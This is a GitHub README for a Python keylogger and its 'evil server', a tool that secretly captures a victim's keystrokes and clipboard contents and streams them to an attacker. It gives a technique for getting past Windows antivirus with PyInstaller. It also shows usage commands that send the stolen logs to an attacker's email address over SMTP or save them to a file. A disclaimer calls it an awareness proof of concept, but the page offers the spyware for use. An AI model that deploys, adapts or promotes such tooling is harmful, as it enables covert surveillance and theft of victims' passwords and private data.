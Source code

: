 
<div align="center">
    
![Screenshot_20231005_033920](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a)

[![License: GPL-3.0](https://img.shields.io/badge/License-GPL--3.0-blue.svg)](https://opensource.org/licenses/GPL-3.0)
    
<img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Type%20-Script-violet.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Target OS%20-Windows, Linux-red.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit, as it serves as a proof of concept and can be improved in many ways.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

And it has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![ezgif com-video-to-gif](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/0bd58f4c-d3d9-4dc8-9e48-96f087d7e6c6)


#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/a92f9295-a0a4-43f6-9270-38004afee560)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
